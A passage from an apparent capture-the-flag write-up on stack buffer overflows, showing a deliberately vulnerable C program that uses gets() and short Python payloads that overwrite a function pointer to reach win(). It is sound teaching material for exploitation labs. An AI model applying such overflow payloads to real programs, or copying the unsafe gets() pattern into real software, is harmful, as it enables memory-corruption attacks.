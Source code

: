 ```py
var = "x"*68 + "\x0a\x0d\x0a\x0d"
print (var)
```

Then exported the **GREENIE** variable and executed the compiled binary.

![Alt text](https://github.com/tig-paul/CSOC-2024/blob/main/Writeup_files/image-52.png)

## Stack 3:

Source code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

### Writeup:

First I used `objdump -d stack_3.out` to search for the `win` function in the memory and found its address to be `0x0000000000400704`. Then I made this exploit to overflow the stack and store the address of the `win` function in `fp`. Then it will call `win` to print the message. 

```py
var = 'x'*64 + '\x04\x07\x40\x00'
print(var)
```
